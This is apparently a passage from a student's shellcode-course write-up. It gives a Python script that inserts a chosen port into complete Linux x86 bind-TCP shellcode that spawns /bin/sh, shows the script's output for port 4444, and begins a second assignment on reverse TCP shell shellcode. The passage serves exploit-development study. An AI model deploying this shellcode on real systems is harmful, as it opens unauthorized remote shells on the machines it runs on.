 I hope you enjoyed learning how to create a simple shell-bind-tcp using shellcode!

As an added bonus, I've included a python script that allows you to dynamically restructure shellcode to allow for the swapping of ports.

```
#!/usr/bin/python
import sys
    
if len(sys.argv) != 2:
  print "Please enter port number..."
  sys.exit()
    
port_number     = int(sys.argv[1])
bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
Filter        = [b for b in bts if b > 0]
Format       = ["\\x" + format(b, 'x') for b in Filter]
PostJoining          = "".join(Format)
    
oldShellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
oldShellcode +="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x02\\x31\\xc9"
oldShellcode +="\\x51\\x66\\x68" + PostJoining + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57"
oldShellcode +="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x04\\x31\\xc9\\x51\\x57"
oldShellcode +="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x05\\x31\\xc9\\x51\\x51"
oldShellcode +="\\x57\\x89\\xe1\\xcd\\x80\\x31\\xdb\\x89\\xc3\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd"
oldShellcode +="\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f\\x2f\\x73\\x68"
oldShellcode +="\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"
    
print("\nShellcode with port " + str(port_number) + " is: " + oldShellcode)
```
```
root@ubuntu:/mnt/hgfs/assembly/exam/1-Assignment/# python port-changer.py 4444

Shellcode with port 4444 is: \x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80
root@ubuntu:/mnt/hgfs/assembly/exam/1-Assignment/working/4-testShellcode# cat port-changer.py
```


# Assignment 2
# Reverse TCP Shell Requirements
- Create Reverse Shell TCP shellcode
- Reverse connects to configured IP and PORT
- Execs Shell on successful connection
- IP and Port should be easily configurable

## Context
Have you ever generated shellcode with tools like Metasploit and MSFvenom? 
If you have, I'm sure you've wondered what that shellcode actually translates to beyond the generic descriptor "linux/x86/shell_bind_tcp".
